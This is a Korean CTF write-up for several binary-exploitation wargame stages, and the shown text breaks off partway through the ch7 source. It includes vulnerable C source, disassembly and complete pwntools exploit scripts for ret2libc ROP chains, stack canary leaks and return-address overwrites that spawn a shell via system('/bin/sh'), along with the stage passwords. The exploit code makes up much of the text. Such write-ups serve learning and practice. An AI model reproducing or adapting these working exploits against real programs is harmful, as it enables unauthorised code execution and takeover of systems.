

다행히 기본적으로 read 함수의 주소를 주기 때문에 이걸로 libc의 base 주소를 알 수 있다

그러면 이를 통해 system의 주소를 알고 실행하면 된다.

여기서 인자 부분은 64bit linux에서 1번 인자는 rdi, 2번 인자는 rsi, 3번 인자는 rdx로 gadget을 이용하면 된다.



gadget은 ROPgadget으로 알 수 있다.

### 익스 코드

```python
from pwn import *

#e=ELF('./stage4')
e=ELF('./st4')
p=e.process()
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi=0x0000000000401215
pop_rsi_r15=0x0000000000401217
pop_rdx=0x000000000040121b

p.sendlineafter(': ','2')
p.recvuntil('Address of freezer warehouse : ')
leak=int(p.recvline()[:-1],16)

libc_base=leak-libc.sym['read']
system=libc_base+libc.sym['system']
binsh=e.sym['MasterKey']

log.success(f'system={hex(system)}')
log.success(f'binsh={hex(binsh)}')
pause()

payload=b'A'*0x58+p64(pop_rdi)+p64(binsh)+p64(system)

p.sendline(payload)

p.interactive()
```

하지만 이대로 실행하면 EOF가 난다.

그 이유는 64bit에서의 stack 정렬 때문인데, 간단히 말하면 rsp+8의 값이 항상 16의 배수여야 한다.

이유가 효율 관련이라 하는데 이것까진 모르겠다.

아무튼 우리가 지금 ret으로 함수 호출들을 하는데, 원래는 call이 이 `rsp-8`을 해서 정렬을 깼다가 ret이 다시 +8 해서 맞춰주는 식으로 동작을 한다. 하지만 call이 없으니? ret만으로 함수 호출을 하면 system 호출 시점에서는 정렬이 깨진다.(pop_rdi 실행에서 8로 깨짐, binsh pop 하면서 안깨짐, 이후 system에서 깨짐)

그렇기 때문에 우리는 맨 처음에 `ret`을 하나 추가하면 system 호출 때 정렬이 맞도록 할 수 있다.(정렬은 함수 호출(정확히는 movaps같은 일부 어셈블리 명령어인데 앵간한 함수에 다 들어있어서…)때만 신경쓰면 도기 때문

그래서 최종 익스코드는

```python
from pwn import *

e=ELF('./stage4')
p=e.process()
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

pop_rdi=0x0000000000401215
pop_rsi_r15=0x0000000000401217
pop_rdx=0x000000000040121b
ret=0x000000000040101a

p.sendlineafter(': ','2')
p.recvuntil('Address of freezer warehouse : ')
leak=int(p.recvline()[:-1],16)

libc_base=leak-libc.sym['read']
system=libc_base+libc.sym['system']
binsh=e.sym['MasterKey']

log.success(f'system={hex(system)}')
log.success(f'binsh={hex(binsh)}')
pause()

payload=b'A'*0x58+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(system)

p.sendline(payload)

p.interactive()
```



pw: i_gROPed_for_food_in_the_dark

---

# ch5

## 코드

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>

// Bunker status structure
typedef struct {
    int power;
    int doors;
    int IPS;
    char airQuality[10];
    char waterSupply[10];
    char communication[10];
    char structuralIntegrity[10];
} BunkerStatus;

struct auth {
    char username[50];
    char passwd[50];
};

void generateRandomCode(char *code, int length) {
    int fd;
    char randByte;

    if ((fd = open("/dev/random", O_RDONLY)) == -1)
    {
        perror("open error");
        exit(1);
    }
    if ((read(fd, code, length)) == -1)
    {
        perror("read error");
        exit(1);
    }

    for (int i = 0; i < length; i++) {
        randByte = code[i] % 10;
        if ((randByte) < 0)
            randByte += 10;

        code[i] = '0' + randByte; // Generate random digit
    }

}

void printStatus(BunkerStatus *status) {
    printf("Bunker Status:\n");
    printf("- Power: %s\n", status->power ? "ON" : "OFF");
    printf("- Doors: %s\n", status->doors ? "OPEN" : "CLOSED");
    printf("- IPS Systems: %s\n", status->IPS ? "ACTIVATED" : "DEACTIVATED");
    printf("- Air Quality: %s\n", status->airQuality);
    printf("- Water Supply: %s\n", status->waterSupply);
    printf("- Communication Systems: %s\n", status->communication);
    printf("- Structural Integrity: %s\n", status->structuralIntegrity);
}

void lockdown(BunkerStatus *status) {
    printf("Initiating lockdown procedure...\n");
    status->doors = 0;
    status->IPS = 1;
    status->power = 1;
    printf("Lockdown in progress...\n");
    printf("All doors closed. IPS systems activated. Power supply secured.\n");
}

void openDoors(BunkerStatus *status) {
    printf("Opening all bunker doors...\n");
    status->doors = 1;
    printf("Doors are now OPEN.\n");
}

void closeDoors(BunkerStatus *status) {
    printf("Closing all bunker doors...\n");
    status->doors = 0;
    printf("Doors are now CLOSED.\n");
}

void activateIPS(BunkerStatus *status) {
    printf("Activating IPS systems...\n");
    status->IPS = 1;
    status->doors = 0;
    printf("IPS systems are now ACTIVATED.\n");
}

void deactivateIPS(BunkerStatus *status) {
    printf("Deactivating IPS systems...\n");
    status->IPS = 0;
    status->doors = 1;
    printf("IPS systems are now DEACTIVATED.\n");
    openDoors(&status);
}

void powerOn(BunkerStatus *status) {
    printf("Powering on the bunker...\n");
    status->power = 1;
    printf("Power is now ON.\n");
}

void powerOff(BunkerStatus *status) {
    printf("Powering off the bunker...\n");
    status->power = 0;
    printf("Power is now OFF.\n");
}

void performSystemCheck(BunkerStatus *status) {
    printf("Performing system diagnostic check...\n");
    printStatus(status);
}

void displayHelp() {
    printf("Available commands:\n");
    printf("- status           : Display the current status of the bunker.\n");
    printf("- lockdown         : Initiate lockdown procedure.\n");
    printf("- open_doors       : Open all bunker doors.\n");
    printf("- close_doors      : Close all bunker doors.\n");
    printf("- activate_IPS     : Activate IPS systems.\n");
    printf("- deactivate_IPS   : Deactivate IPS systems.\n");
    printf("- power_on         : Turn on the power.\n");
    printf("- power_off        : Turn off the power.\n");
    printf("- system_check     : Perform a system diagnostic check.\n");
    printf("- exit             : Exit the Bunker Control System.\n");
}

int IPS() {
    char username[50];
    char passwd[50];

    int accessGranted = 0;
    int count = 0;

    struct auth *auth = malloc(sizeof(struct auth));

    strcpy(auth->username, "admin");
    generateRandomCode(auth->passwd, 50);

    printf("\nIntrusion Prevention System Active.\n");
    printf("Authenticate to access the system\n\n");

    while (!accessGranted && count < 3) {
        printf("Username: ");
        read(0, username, sizeof(struct auth));
        //fgets(username, sizeof(auth), stdin);
        username[strcspn(username, "\n")] = '\0';

        printf("Password: ");
        read(0, passwd, sizeof(struct auth));
        //fgets(passwd, sizeof(auth), stdin);
        passwd[strcspn(passwd, "\n")] = '\0';

        printf("\nYour account: %s\n", username);
        if (!strncmp(passwd, auth->passwd, sizeof(auth)) && !strncmp(username, auth->username, sizeof(auth))) {
            accessGranted = 1;
            printf("Access granted.\n");
            return 0 ;
        } else {
            printf("Incorrect code. Try again.\n");
            count++;
        }
    }
    printf("3 incorrect code attempts\n");
    for (int i = 30; i > 0; i--){
        printf("%d Second left\r", i);
        sleep(1);
    }
    return -1;
}

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

int main() {
    init();

    do{

        printf("##############################################################\n");
        printf("#                    Bunker Control System                   #\n");
        printf("##############################################################\n");
        printf("Welcome to the Bunker Control System (BCS).\n");
        printf("Please enter a command. Type 'help' for a list of available commands.\n");

    }while(IPS());

    char command[50];
    BunkerStatus status = {1, 0, 1, "GOOD", "NORMAL", "FUNCTIONAL", "SOUND"};

    while (1) {
        printf("\n> ");
        fgets(command, 50, stdin);
        command[strcspn(command, "\n")] = '\0';

        if (strcmp(command, "help") == 0) {
            displayHelp();
        } else if (strcmp(command, "status") == 0) {
            printStatus(&status);
        } else if (strcmp(command, "lockdown") == 0) {
            lockdown(&status);
        } else if (strcmp(command, "open_doors") == 0) {
            openDoors(&status);
        } else if (strcmp(command, "close_doors") == 0) {
            closeDoors(&status);
        } else if (strcmp(command, "activate_IPS") == 0) {
            activateIPS(&status);
        } else if (strcmp(command, "deactivate_IPS") == 0) {
            deactivateIPS(&status);
        } else if (strcmp(command, "power_on") == 0) {
            powerOn(&status);
        } else if (strcmp(command, "power_off") == 0) {
            powerOff(&status);
        } else if (strcmp(command, "system_check") == 0) {
            performSystemCheck(&status);
        } else if (strcmp(command, "exit") == 0) {
            printf("Exiting the Bunker Control System...\n");
            break;
        } else {
            printf("Unknown command. Type 'help' for a list of available commands.\n");
        }
    }

    return 0;
}
```

```c
[*] '/home/The_Alarm_of_Hope/ips'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```

일단 중요한 부분은 `IPS` 함수에서 username과 password를 입력받는 부분일 것이다.

둘 다 auth 구조체의 크기만큼 입력을 받는데, 크기는 0x64이다.

그리고 gdb에서 password를 입력받는 부분을 보면


password는 `[rbp-0x40]`이다. 즉, 여기서 ret을 덮어쓸 수 있다.

그리고 got list를 보면



system got가 있다. 그리고 혹시나 ‘/bin/sh’ 가 있나 보는데



있다? PIE가 꺼져 있으니 실제 주소는 0x400000+0x2576=0x402576 이다.

위에서 입력 부분을 볼 때 ips를 다시 보면 전문은 다음과 같다.

```c
Dump of assembler code for function IPS:
   0x00000000004017f0 <+0>:     endbr64
   0x00000000004017f4 <+4>:     push   rbp
   0x00000000004017f5 <+5>:     mov    rbp,rsp
   0x00000000004017f8 <+8>:     sub    rsp,0xa0
   0x00000000004017ff <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000401808 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x000000000040180c <+28>:    xor    eax,eax
   0x000000000040180e <+30>:    mov    DWORD PTR [rbp-0x8c],0x0
   0x0000000000401818 <+40>:    mov    DWORD PTR [rbp-0x94],0x0
   0x0000000000401822 <+50>:    mov    edi,0x64
   0x0000000000401827 <+55>:    call   0x4011b0
   0x000000000040182c <+60>:    mov    QWORD PTR [rbp-0x88],rax
   0x0000000000401833 <+67>:    mov    rax,QWORD PTR [rbp-0x88]
   0x000000000040183a <+74>:    mov    DWORD PTR [rax],0x696d6461
   0x0000000000401840 <+80>:    mov    WORD PTR [rax+0x4],0x6e
   0x0000000000401846 <+86>:    mov    rax,QWORD PTR [rbp-0x88]
   0x000000000040184d <+93>:    add    rax,0x32
   0x0000000000401851 <+97>:    mov    esi,0x32
   0x0000000000401856 <+102>:   mov    rdi,rax
   0x0000000000401859 <+105>:   call   0x4012f6 <generateRandomCode>
   0x000000000040185e <+110>:   lea    rax,[rip+0xc8b]        # 0x4024f0
   0x0000000000401865 <+117>:   mov    rdi,rax
   0x0000000000401868 <+120>:   call   0x401130
   0x000000000040186d <+125>:   lea    rax,[rip+0xca4]        # 0x402518
   0x0000000000401874 <+132>:   mov    rdi,rax
   0x0000000000401877 <+135>:   call   0x401130
   0x000000000040187c <+140>:   jmp    0x4019b0 <IPS+448>
   0x0000000000401881 <+145>:   lea    rax,[rip+0xcb3]        # 0x40253b
   0x0000000000401888 <+152>:   mov    rdi,rax
   0x000000000040188b <+155>:   mov    eax,0x0
   0x0000000000401890 <+160>:   call   0x401160
   0x0000000000401895 <+165>:   lea    rax,[rbp-0x80]
   0x0000000000401899 <+169>:   mov    edx,0x64
   0x000000000040189e <+174>:   mov    rsi,rax
   0x00000000004018a1 <+177>:   mov    edi,0x0
   0x00000000004018a6 <+182>:   call   0x401180
   0x00000000004018ab <+187>:   lea    rax,[rbp-0x80]
   0x00000000004018af <+191>:   lea    rdx,[rip+0xc90]        # 0x402546
   0x00000000004018b6 <+198>:   mov    rsi,rdx
   0x00000000004018b9 <+201>:   mov    rdi,rax
   0x00000000004018bc <+204>:   call   0x401170
   0x00000000004018c1 <+209>:   mov    BYTE PTR [rbp+rax*1-0x80],0x0
   0x00000000004018c6 <+214>:   lea    rax,[rip+0xc7b]        # 0x402548
   0x00000000004018cd <+221>:   mov    rdi,rax
   0x00000000004018d0 <+224>:   mov    eax,0x0
   0x00000000004018d5 <+229>:   call   0x401160
   0x00000000004018da <+234>:   lea    rax,[rbp-0x40]
   0x00000000004018de <+238>:   mov    edx,0x64
   0x00000000004018e3 <+243>:   mov    rsi,rax
   0x00000000004018e6 <+246>:   mov    edi,0x0
   0x00000000004018eb <+251>:   call   0x401180
   0x00000000004018f0 <+256>:   lea    rax,[rbp-0x40]
   0x00000000004018f4 <+260>:   lea    rdx,[rip+0xc4b]        # 0x402546
   0x00000000004018fb <+267>:   mov    rsi,rdx
   0x00000000004018fe <+270>:   mov    rdi,rax
   0x0000000000401901 <+273>:   call   0x401170
   0x0000000000401906 <+278>:   mov    BYTE PTR [rbp+rax*1-0x40],0x0
   0x000000000040190b <+283>:   lea    rax,[rbp-0x80]
   0x000000000040190f <+287>:   mov    rsi,rax
   0x0000000000401912 <+290>:   lea    rax,[rip+0xc3a]        # 0x402553
   0x0000000000401919 <+297>:   mov    rdi,rax
   0x000000000040191c <+300>:   mov    eax,0x0
   0x0000000000401921 <+305>:   call   0x401160
   0x0000000000401926 <+310>:   mov    rax,QWORD PTR [rbp-0x88]
   0x000000000040192d <+317>:   lea    rcx,[rax+0x32]
   0x0000000000401931 <+321>:   lea    rax,[rbp-0x40]
   0x0000000000401935 <+325>:   mov    edx,0x8
   0x000000000040193a <+330>:   mov    rsi,rcx
   0x000000000040193d <+333>:   mov    rdi,rax
   0x0000000000401940 <+336>:   call   0x401120
   0x0000000000401945 <+341>:   test   eax,eax
   0x0000000000401947 <+343>:   jne    0x40199a <IPS+426>
   0x0000000000401949 <+345>:   mov    rcx,QWORD PTR [rbp-0x88]
   0x0000000000401950 <+352>:   lea    rax,[rbp-0x80]
   0x0000000000401954 <+356>:   mov    edx,0x8
   0x0000000000401959 <+361>:   mov    rsi,rcx
   0x000000000040195c <+364>:   mov    rdi,rax
   0x000000000040195f <+367>:   call   0x401120
   0x0000000000401964 <+372>:   test   eax,eax
   0x0000000000401966 <+374>:   jne    0x40199a <IPS+426>
   0x0000000000401968 <+376>:   mov    DWORD PTR [rbp-0x8c],0x1
   0x0000000000401972 <+386>:   lea    rax,[rip+0xbed]        # 0x402566
   0x0000000000401979 <+393>:   mov    rdi,rax
   0x000000000040197c <+396>:   call   0x401130
   0x0000000000401981 <+401>:   lea    rax,[rip+0xbee]        # 0x402576
   0x0000000000401988 <+408>:   mov    rdi,rax
   0x000000000040198b <+411>:   call   0x401150
   0x0000000000401990 <+416>:   mov    eax,0x0
   0x0000000000401995 <+421>:   jmp    0x401a1c <IPS+556>
   0x000000000040199a <+426>:   lea    rax,[rip+0xbdd]        # 0x40257e
   0x00000000004019a1 <+433>:   mov    rdi,rax
   0x00000000004019a4 <+436>:   call   0x401130
   0x00000000004019a9 <+441>:   add    DWORD PTR [rbp-0x94],0x1
   0x00000000004019b0 <+448>:   cmp    DWORD PTR [rbp-0x8c],0x0
   0x00000000004019b7 <+455>:   jne    0x4019c6 <IPS+470>
   0x00000000004019b9 <+457>:   cmp    DWORD PTR [rbp-0x94],0x2
   0x00000000004019c0 <+464>:   jle    0x401881 <IPS+145>
   0x00000000004019c6 <+470>:   lea    rax,[rip+0xbcc]        # 0x402599
   0x00000000004019cd <+477>:   mov    rdi,rax
   0x00000000004019d0 <+480>:   call   0x401130
   0x00000000004019d5 <+485>:   mov    DWORD PTR [rbp-0x90],0x1e
   0x00000000004019df <+495>:   jmp    0x401a0e <IPS+542>
   0x00000000004019e1 <+497>:   mov    eax,DWORD PTR [rbp-0x90]
   0x00000000004019e7 <+503>:   mov    esi,eax
   0x00000000004019e9 <+505>:   lea    rax,[rip+0xbc3]        # 0x4025b3
   0x00000000004019f0 <+512>:   mov    rdi,rax
   0x00000000004019f3 <+515>:   mov    eax,0x0
   0x00000000004019f8 <+520>:   call   0x401160
   0x00000000004019fd <+525>:   mov    edi,0x1
   0x0000000000401a02 <+530>:   call   0x401200
   0x0000000000401a07 <+535>:   sub    DWORD PTR [rbp-0x90],0x1
   0x0000000000401a0e <+542>:   cmp    DWORD PTR [rbp-0x90],0x0
   0x0000000000401a15 <+549>:   jg     0x4019e1 <IPS+497>
   0x0000000000401a17 <+551>:   mov    eax,0xffffffff
   0x0000000000401a1c <+556>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000401a20 <+560>:   sub    rdx,QWORD PTR fs:0x28
   0x0000000000401a29 <+569>:   je     0x401a30 <IPS+576>
   0x0000000000401a2b <+571>:   call   0x401140
   0x0000000000401a30 <+576>:   leave
   0x0000000000401a31 <+577>:   ret
```

그런데, 중간에 binsh를 사용하는 부분이 있다.

```c
0x0000000000401972 <+386>:   lea    rax,[rip+0xbed]        # 0x402566
0x0000000000401979 <+393>:   mov    rdi,rax
0x000000000040197c <+396>:   call   0x401130
0x0000000000401981 <+401>:   lea    rax,[rip+0xbee]        # 0x402576
0x0000000000401988 <+408>:   mov    rdi,rax
0x000000000040198b <+411>:   call   0x401150
```

0x401150은 system plt 주소다. 그리고 `0x402566` 은 `Access granted.` 의 주소니 결국 IPS에서

```c
accessGranted = 1;
printf("Access granted.\n");
return 0 ;
```

이 부분에 `system("/bin/sh");`가 있단 뜻이 되고 결국 ret을 여기(`0x0000000000401981`) 로 덮으면 된다.

여기서 주의점은 이 문제는 카나리가 켜져 있다. 카나리는 return 주소 바로 전에 위치하는 값으로, 이 값이 정해진 값과 다르면 프로그램이 return 주소로 돌아가지 않고 종료된다.

그래서 이 canary leak이 필요한데 마침 username을 출력하는 부분이 있다.

```c
username[strcspn(username, "\n")] = '\0';
passwd[strcspn(passwd, "\n")] = '\0';
```

나름 leak 방지용으로 줄바꿈을 NULL로 바꾸긴 하지만 어차피 0x64만큼만 읽으므로, username은 0x64개 넣고 passwd는 sendline대신 send로 보내면 줄바꿈 안나온다.



스택 구조는 위와 같다.

## 풀이

```python
from pwn import *

#e=ELF('./chal')
e=ELF('./ips')
p=e.process()

win=0x401981
ret=0x40101a
context.log_level='debug'
p.sendafter('name: ', b'A'*0x64)
p.sendafter('word: ', b'A'*0x39)

p.recvuntil(b'A'*0x79)

canary=u64(b'\x00'+p.recv(7))

log.success(f'canary={hex(canary)}')

pause()

p.sendafter(': ','a')
p.sendafter(': ','a')
payload=b'A'*0x38+p64(canary)+p64(ret)+p64(win)
p.sendafter('name: ', b'A'*0x64)
p.sendafter('word: ', payload)
pause()
p.interactive()
```



pw: i_wA5_A_bos5…

i_wA5_A_bos5…

---

# ch6

## 코드 분석

```c
#include <stdio.h>

void menu(){
    puts("1. read diary");
    puts("2. write diary");
    puts("3. put down the diary");
    printf("> ");
}

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    int ch, index = 0;
    char page1[] = "As soon as I arrived here, I locked the door tightly.\nCatching my breath, it feels like a miracle that I managed to escape safely.";
    char page2[] = "Looking around, there isn't much food left.\nTo survive, I'll have to go out again soon.";
    char page3[] = "I checked my weapons and packed the necessary supplies in my bag.\nAccording to rumors I heard outside, there's a vaccine at a nearby lab.";
    char page4[] = "As I headed out, I could hear the zombies' cries.\nMy heart was pounding wildly, but I moved quietly.";
    char page5[] = "At that moment, a zombie suddenly attacked me.\nAs I checked the bite wound on my arm, I realized that the vaccine at the lab was now my last hope.";
    char hidden[] = "Failed, failed, failed, failed, failed, faile... itchy, tasty";
    char* diary[] = {page1, page2, page3, page4, page5, hidden};\
    puts("");
    printf("  ██████  █    ██  ██▀███   ██▒   █▓ ██▓ ██▒   █▓ ▒█████   ██▀███    ██████    ▓█████▄  ██▓ ▄▄▄       ██▀███ ▓██   ██▓\n");
    printf("▒██    ▒  ██  ▓██▒▓██ ▒ ██▒▓██░   █▒▓██▒▓██░   █▒▒██▒  ██▒▓██ ▒ ██▒▒██    ▒    ▒██▀ ██▌▓██▒▒████▄    ▓██ ▒ ██▒▒██  ██▒\n");
    printf("░ ▓██▄   ▓██  ▒██░▓██ ░▄█ ▒ ▓██  █▒░▒██▒ ▓██  █▒░▒██░  ██▒▓██ ░▄█ ▒░ ▓██▄      ░██   █▌▒██▒▒██  ▀█▄  ▓██ ░▄█ ▒ ▒██ ██░\n");
    printf("  ▒   ██▒▓▓█  ░██░▒██▀▀█▄    ▒██ █░░░██░  ▒██ █░░▒██   ██░▒██▀▀█▄    ▒   ██▒   ░▓█▄   ▌░██░░██▄▄▄▄██ ▒██▀▀█▄   ░ ▐██▓░\n");
    printf("▒██████▒▒▒▒█████▓ ░██▓ ▒██▒   ▒▀█░  ░██░   ▒▀█░  ░ ████▓▒░░██▓ ▒██▒▒██████▒▒   ░▒████▓ ░██░ ▓█   ▓██▒░██▓ ▒██▒ ░ ██▒▓░\n");
    printf("▒ ▒▓▒ ▒ ░░▒▓▒ ▒ ▒ ░ ▒▓ ░▒▓░   ░ ▐░  ░▓     ░ ▐░  ░ ▒░▒░▒░ ░ ▒▓ ░▒▓░▒ ▒▓▒ ▒ ░    ▒▒▓  ▒ ░▓   ▒▒   ▓▒█░░ ▒▓ ░▒▓░  ██▒▒▒\n");
    printf("░ ░▒  ░ ░░░▒░ ░ ░   ░▒ ░ ▒░   ░ ░░   ▒ ░   ░ ░░    ░ ▒ ▒░   ░▒ ░ ▒░░ ░▒  ░ ░    ░ ▒  ▒  ▒ ░  ▒   ▒▒ ░  ░▒ ░ ▒░▓██ ░▒░\n");
    printf("░  ░  ░   ░░░ ░ ░   ░░   ░      ░░   ▒ ░     ░░  ░ ░ ░ ▒    ░░   ░ ░  ░  ░      ░ ░  ░  ▒ ░  ░   ▒     ░░   ░ ▒ ▒ ░░\n\n");

    while(1){
        menu();
        scanf("%d", &ch);
        if (ch == 1){
            printf("index (0~4) : ");
            scanf("%d", &index);
            if (index >= 6 || index < 0){
                puts("invalid index");
                continue;
            }
            puts(diary[index]);
        }
        else if (ch == 2){
            printf("index (0~4) : ");
            scanf("%d", &index);
            if (index >= 6 || index < 0){
                puts("invalid index");
                continue;
            }
            printf("content > ");
            read(0, diary[index], 0x100);
        }
        else if (ch == 3){
            break;
        }
    }
    puts("Ok let's go!");
    return 0;

```

```c
[*] '/home/Crisis_at_the_Vault/prob'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

전형적인 menu형식의 문제며 역할을 정라하면 다음과 같다.

1. `diary`의 0~5 index 출력
2. `diary`의 0~5 index 수정

여기서 `diary`는 포인터 배열로, 각 idx에 `page1, page2, page3, page4, page5, hidden` 의 “주소” 를 담고 있다.

그리고 `diary`는 `[rbp-0x300+rax*8]` 이고 rax가 idx다.



`diary`에 담긴 포인터들의 주소를 보면

```c
pwndbg> x/6gx $rbp-0x300
0x7fffffffe030: 0x00007fffffffe170      0x00007fffffffe0a0
0x7fffffffe040: 0x00007fffffffe200      0x00007fffffffe100
0x7fffffffe050: 0x00007fffffffe290      0x00007fffffffe060
```

가장 낮은 주소는 hidden의 `0x00007fffffffe060`이고 높은 주소는 `page5`의 `0x00007fffffffe290` 이다.

그리고 canary, return은 0x7fffffffe328, 0x7fffffffe338에 있다.

```c
pwndbg> x/4gx $rbp-0x10
0x7fffffffe320: 0x0000000000002e65      0x5b855730b4db4800
0x7fffffffe330: 0x0000000000000001      0x00007ffff7db3d90
```

우리는 2번 메뉴에서 각 변수마다 0x100까지 쓸 수 있는데 이 canary, return이 page5+0x100에 걸린다.

그러니 page5를 통해 canary leak을 하고, libc leak을 하고 rop하면 된다.

## 풀이

```c
from pwn import *

e=ELF('./prob')
p=e.process()
libc=ELF('./libc.so.6')

#context.log_level='debug'

pop_rdi=0x000000000002a3e5
ret=0x0000000000029659
binsh=0x1d8678

p.sendlineafter('> ','2')
p.sendlineafter(': ','4')
p.sendafter('> ', b'A'*0x99)

p.sendlineafter('> ','1')
p.sendlineafter(': ','4')

p.recvuntil(b'A'*0x99)
canary=u64(b'\x00'+p.recv(7))

p.sendlineafter('> ','2')
p.sendlineafter(': ','4')

p.sendafter('> ', b'A'*0xa8)

p.sendlineafter('> ','1')
p.sendlineafter(': ','4')
p.recvuntil(b'A'*0xa8)
libc_base=u64(p.recv(6).ljust(8,b'\x00'))-0x29d90

log.success(f'canary={hex(canary)}')
log.success(f'libc_base={hex(libc_base)}')

payload=b'A'*0x98+p64(canary)+b'B'*8+p64(ret+libc_base)+p64(pop_rdi+libc_base)+p64(binsh+libc_base)+p64(libc.sym['system']+libc_base)
p.sendlineafter('> ','2')
p.sendlineafter(': ','4')
p.sendafter('> ', payload)

p.sendlineafter('> ','3')
p.interactive()
```



pw:anchovy

---

# ch7

## 코드 분석

```c
#include <stdio.h>
/*
    HSpace Lord of the BOF
    - got
*/

unsigned long long wire[100];

void startup(){
    puts("Hope the car starts!");
    char wish[0x100];
    read(0, wish, 0x200);
}

void menu(){
    puts("1. Re-map ecu");
    puts("2. Start a car");
    puts("3. Die XD");
}

int main(int argc, char *argv[]){
    setbuf(stdout, 0);
    setbuf(stdin, 0);
